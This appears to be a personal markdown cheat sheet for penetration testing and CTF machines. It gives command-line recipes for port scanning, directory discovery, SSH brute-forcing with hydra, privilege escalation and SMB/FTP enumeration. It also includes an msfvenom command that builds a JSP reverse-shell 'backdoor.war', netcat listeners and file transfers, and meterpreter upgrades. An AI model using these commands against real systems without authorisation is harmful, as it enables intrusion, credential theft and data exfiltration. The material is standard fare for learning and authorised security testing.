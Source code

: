 # Starting Penetration

```
msfconsole
```

To Open metasploit console

## Port Scan

```
nmap -sV -sC -O -p- --min-rate 20000 IP
```

Alternate

```
nmap -T4 -A -v IP
```

-O - OS Detection

-p- - to scan all ports

20k rate probably way too high. Reduce to reduce risk of alerting firewall.

-sS - for TCP SYN Scan

-sV - to show services related to each port


### Get Version of Service

NetCat

```
nc IP PORT
```

Listen on port
```
nc IP PORT -lvnp
```

Listen throuh metsploit
```
use exploit/multi/handler
```

### Find Exploits with SearchSploit

```
searchsploit servicename version
```

### Add new modules to metasploit from exploit-db

Get path from searchsploit

```
curl http://www.exploit-db.com/download/ID  /root/.msf4/modules/exploits/custom/CUSTOMFILENAME
```



### Metadata

```
exiftool file
```

### Web Server:

```
python3 -m http.server PORT
```

Retrieve:
```
wget http://IP:PORT/PATH
```

#### Directory Discovery

Word lists are at `/usr/share/wordlists` (In KALI)

```
gobuster dir -u URL:port -t threads -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

Backup: (Can get through things ^^^ can't)

```
dirb http://IP/
```
-X .sh - extensions to search
-w /path/to/wordlist - wordlist


#### Replicate website on local storage

```
wget http://ip/ -r
```
https:
```
wget http://ip/ -r --no-check-certificate

#### Wordpress vulnerability checker

```
wpscan --url URL
```

--plugin-detection aggressive    -   Takes a long time, but digs up good dirt


## SSH

### SSH with RSA file

```
ssh -i /path/to/file user@IP
```


#### Brute Forcing Passwords

```
hydra -l USER -P /path/to/wordlist ssh://IP
```

https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials


## Apache

### After /manager breach

#### Make Offensive WAR file

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4449 -f war > backdoor.war
```


## Attempt to Elevate permissions after entry

### Download file to remote host

Host:
```
nc -l PORT < /path/to/file
```

Client:
```
nc IP PORT > file
```

### Open SSH through Metasploit

```
use auxiliary/scanner/ssh/ssh_login
```

### Upgrade shell to meterpreter

```
use post/multi/manage/shell_to_meterpreter
```

##### Gather random exploits possibilities.

```
use post/multi/recon/local_exploit_suggester
```
Gives readout of possible vulnerabilities of connected host


### NFS (RPCBIND?)

Enumerate NFS shares.

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.223.98
```



### Linux Specific

```sudo -l```

```whoami```

##### Run command as specific user
```
sudo -u USER command
```

##### Start shell as specific user
```
sudo -u USER bash -i
```

#### Search specific word

```grep -n "WORD" /path/to/file(s)```
-n lists line number
-r - recursively check all files matching path
-B # - Prints this many lines before
-A # - Prints this many lines after

#### LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
scp /home/mike/linpeas.sh USER@IP:/home/USER
```
```
./linpeas.sh
```

#### Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


### FTP

Replicate entire FTP
```
wget -m ftp://anonymous:anonymous@IP
```


### Samba share

##### Quick Enumeration

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP
```

Change port to match nmap results. (Usually 139 or 445)

##### Deep Enumeration

```
enum4linux -a IP | tee enum4linux.log
```


#### Inspect Samba Share

```
smbclient //ip/sambashare
```


#### Recursively download the SMB share

```
smbget -R smb://ip/sambashare
```

